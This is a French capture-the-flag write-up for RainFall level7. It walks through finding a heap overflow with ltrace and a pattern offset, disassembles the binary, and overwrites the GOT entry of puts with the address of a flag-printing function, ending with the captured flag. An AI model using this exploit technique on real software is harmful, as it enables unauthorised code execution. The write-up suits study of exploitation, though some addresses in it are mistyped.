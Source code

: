 Un premier test rapide montre que le binaire prend 2 arguments et donne "~~":
```bash
level7@RainFall:~$ ./level7 aaa bbb
~~
```
Testons avec **ltrace**. 
```bash
level7@RainFall:~$ ltrace ./level7 aaaaaaaa bbbbbbbb
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                     = 0x0804a008
malloc(8)                                                     = 0x0804a018
malloc(8)                                                     = 0x0804a028
malloc(8)                                                     = 0x0804a038
strcpy(0x0804a018, "aaaaaaaa")                                = 0x0804a018
strcpy(0x0804a038, "bbbbbbbb")                                = 0x0804a038
fopen("/home/user/level8/.pass", "r")                         = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
nous avons un segfault, mais nous voyons 2 **strcpy** dont nous savons qu'ils sont suceptibles au buffer overrun d'après le man. Nous avons aussi une fonction fopen qui essaye d'ouvrir le flag.
Testons avec un pattern sur le premier argument:
```bash
level7@RainFall:~$ python /tmp/pattern
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1A
c2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A bbbbbbbb
__libc_start_main(0x8048521, 3, 0xbffff774, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                     = 0x0804a008
malloc(8)                                                     = 0x0804a018
malloc(8)                                                     = 0x0804a028
malloc(8)                                                     = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)     = 0x0804a018
strcpy(0x37614136, "bbbbbbbb" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level7@RainFall:~$ python /tmp/pattern > /tmp/str
level7@RainFall:~$  python /tmp/pattern /tmp/str 0x37614136
offset found at: 20
```
Donc à l'offset 20, le buffer de destination du deuxième strcpy est écrasé par l'argument 1. On peut y passer une adresse. On remarque aussi que le buffer de dest du deuxième strcpy est l'adresse du 4ème malloc: **0x0804a038** on peut donc écraser des adresses de retour à l'aide d'un buffer overrun.
désassemblons:

```bash
level7@RainFall:~$ objdump -d ./level7 -M intel
.....
08048400 <puts@plt>:
 8048400:       ff 25 28 99 04 08       jmp    DWORD PTR ds:0x8049928
 8048406:       68 28 00 00 00          push   0x28
 804840b:       e9 90 ff ff ff          jmp    80483a0 <_init+0x34>

.....

Dump of assembler code for function m:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
   0x080484f7 <+3>:     sub    esp,0x18
   0x080484fa <+6>:     mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    edx,0x80486e0
   0x0804850b <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:    mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:    mov    DWORD PTR [esp],edx
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   ebp
   0x08048522 <+1>:     mov    ebp,esp
   0x08048524 <+3>:     and    esp,0xfffffff0
   0x08048527 <+6>:     sub    esp,0x20
   0x0804852a <+9>:     mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:    mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:    mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:    mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    edx,eax
   0x08048552 <+49>:    mov    eax,DWORD PTR [esp+0x1c]
   0x08048556 <+53>:    mov    DWORD PTR [eax+0x4],edx
   0x08048559 <+56>:    mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    DWORD PTR [esp+0x18],eax
   0x08048569 <+72>:    mov    eax,DWORD PTR [esp+0x18]
   0x0804856d <+76>:    mov    DWORD PTR [eax],0x2
   0x08048573 <+82>:    mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    edx,eax
   0x08048581 <+96>:    mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:   mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:   mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:   add    eax,0x4
   0x0804858e <+109>:   mov    eax,DWORD PTR [eax]
   0x08048590 <+111>:   mov    edx,eax
   0x08048592 <+113>:   mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>:   mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:   mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:   mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:   add    eax,0x8
   0x080485ab <+138>:   mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:   mov    edx,eax
   0x080485af <+142>:   mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:   mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:   mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:   mov    DWORD PTR [esp],eax
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    edx,0x80486e9
   0x080485c7 <+166>:   mov    eax,0x80486eb
   0x080485cc <+171>:   mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:   mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:   mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:   mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    eax,0x0
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret
```
On remarque la fonction **m** qui fait un printf sur le contenu de **0x8049960**
A l'aide de gdb inspectons cette adresse qui est aussi en paramètre de fgets:
```bash
(gdb) x/s 0x8049960
0x8049960 <c>:   ""
```
Il s'agit d'une variable globale c, donc **fopen** lit le flag, **fgets** le copie dans c. On peut le print dans **m** mais **m** n'est jamais appelé, à la place le main termine par un **puts**.
On va donc faire un ret2lib après **fgets** et écraser l'adresse de **puts** pour mettre celle de **m**
l'adresse de **puts** est **0x8049928**
celle de **m** est **0x080484f4**, notre payload sera donc de la forme:
- av1 = offset de 20 octet + adresse ou le deuxième strcpy va écrire i.e. **0x0x8049928**
- av2 = adresse de **m** à écrire dans la zone pointée par **0x0x8049928**, i.e. **0x080484f4**
```bash
level7@RainFall:~$ python /tmp/exploit.py 0x0x8049928 0x080484f4 20
crafting payload...
done:
/tmp/payload_level7
level7@RainFall:~$ cat /tmp/payload_level7 | xargs ./level7
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1728666682
 ```
 Bim

